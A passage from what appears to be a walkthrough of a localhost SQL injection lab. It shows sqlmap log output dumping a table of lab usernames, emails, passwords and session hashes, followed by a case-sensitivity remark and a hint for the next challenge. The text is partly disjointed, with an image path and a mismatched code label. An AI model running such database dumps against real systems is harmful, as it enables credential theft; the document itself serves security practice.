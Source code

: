 ```python
[03:14:48] [INFO] retrieved: 4
[03:14:48] [INFO] retrieved: email
[03:14:48] [INFO] retrieved: password
[03:14:48] [INFO] retrieved: session
[03:14:49] [INFO] retrieved: username
[03:14:49] [INFO] fetching entries for table 'injection0x02' in database 'bb-labs'
[03:14:49] [INFO] fetching number of entries for table 'injection0x02' in database 'bb-labs'
[03:14:49] [INFO] retrieved: 2
[03:14:49] [INFO] retrieved: 6967cabefd763ac1a1a88e11159957db
[03:14:51] [INFO] retrieved: jeremy@example.com
[03:14:52] [INFO] retrieved: jeremy
[03:14:53] [INFO] retrieved: jeremy
[03:14:53] [INFO] retrieved: 9dedc6891e2839a791ed37157f1241fe
[03:14:55] [INFO] retrieved: jessamy@example.com
[03:14:56] [INFO] retrieved: ZWFzdGVyZWdn
[03:14:57] [INFO] retrieved: jessamy
[03:14:57] [INFO] recognized possible password hashes in column '`session`'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: bb-labs
Table: injection0x02
[2 entries]
+---------------------+--------------+----------+----------------------------------+
| email               | password     | username | session                          |
+---------------------+--------------+----------+----------------------------------+
| jeremy@example.com  | jeremy       | jeremy   | 6967cabefd763ac1a1a88e11159957db |
| jessamy@example.com | ZWFzdGVyZWdn | jessamy  | 9dedc6891e2839a791ed37157f1241fe |
+---------------------+--------------+----------+----------------------------------+

[03:15:00] [INFO] table '`bb-labs`.injection0x02' dumped to CSV file '/home/cyber/.local/share/sqlmap/output/localhost/dump/bb-labs/injection0x02.csv'
[03:15:00] [INFO] fetched data logged to text files under '/home/cyber/.local/share/sqlmap/output/localhost'

[*] ending @ 03:15:00 /2024-06-20/

                                                                                
┌──(cyber㉿kali)-[~/Desktop/bugbounty]
└─$ 


```

So here we notice that first character is upper case but we have used lower case instead both upper and lower case could still result in true
CHALLENEGE HINT
table name examples: injection0x03_products injection0x03_items

# ==SQL Injection Challenge Walkthrough==
## [Labs](http://localhost/index.php) / Injection 0x03 [Challenge]
